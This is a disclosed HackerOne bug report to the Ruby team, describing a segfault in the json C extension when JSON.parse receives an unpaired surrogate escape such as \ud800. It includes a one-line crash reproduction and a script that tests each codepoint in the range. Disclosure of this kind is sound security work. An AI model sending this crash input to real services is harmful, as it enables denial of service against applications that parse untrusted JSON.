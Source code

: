 # Parsing invalid unicode codepoints using json c extension (2.0.1+) triggers a segfault

## Report Details
- **Report ID**: 198927
- **URL**: https://hackerone.com/reports/198927
- **State**: Closed
- **Severity**: none
- **Submitted**: 2017-01-17T06:15:41.770Z
- **Disclosed**: 2017-10-25T13:57:33.611Z

## Reporter
- **Username**: dgollahon
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ruby

## Vulnerability Information
Using the default `json` library packaged with ruby, one can trigger a segmentation fault by submitting a string with a unicode escape sequence in the range between ` \ud800-\udbff` (https://en.wikipedia.org/wiki/UTF-16#U.2BD800_to_U.2BDFFF).

This is can lead to a denial of service attack by segmentation fault and could be a possible point of memory corruption or remote code execution. Any program that calls `JSON.parse` on untrusted input (which is, of course, exceedingly common in web APIs/apps) is affected. I have also reproduced this bug on a private API server I control.

Minimal reproduction:
```ruby
require 'json'; JSON.parse('"\ud800"')
```

The resulting segfault output and crash report are attached.

Tested in 2.3.3 and 2.4.0. Does NOT occur in 2.2.5.

In 2.3.3 and 2.4.0, if `json/pure` is required, an error is raised instead of a segmentation fault.

```ruby
require 'json/pure'; JSON.parse('"\ud800"') # => JSON::ParserError: Caught Encoding::InvalidByteSequenceError at '': incomplete "\xD8\x00" on UTF-16BE
```
Additionally, if you append 6 valid characters after the escape sequence, the escaped value is replaced with '?' and the following character is destroyed (surprising behavior, but no segfault).

```ruby
require 'json';
JSON.parse('"\ud800123456"') #  => "?23456"
2.3.3 :006 > JSON.parse('"\ud800\ud800123456"') # => "𐀀123456"
2.3.3 :007 > JSON.parse('"\ud800\ud800\ud800123456"') # => "𐀀?23456"
```

In 2.2.5, bare values are not accepted so testing this requires using a key or string value inside a json object as shown below:
```ruby
require "json"; p JSON.parse("{\"key\":\"#{"\\u" + format("%.04x", 56296)}\"}") # => {"key"=>nil}
```
In this case the result is `nil`. Instead, it should likely be an encoding error.

Script I used to iterate over all the codepoints in the range to verify it was not only a handful of specific values:
```ruby
# gem 'json', '2.0.1'
# gem 'json', '2.0.2'
# gem 'json', '2.0.3'
require 'json'

# or 0...1<<16 to explore the entire range
(0xd800..0xdbff).each do |i|
  uni = '\u' + format("%.04x", i)

  program = "require 'json'; JSON.parse('\\\"#{uni}\\\"')"
  system("ruby -e \"#{program}\"")

  status = $?.to_i
  if status != 0
    puts "#{uni} -> exit status #{status}"
  end
end
```

## Attachments
- segfault.txt
- ruby_2017-01-16-165949_Daniels-MacBook-Pro.crash
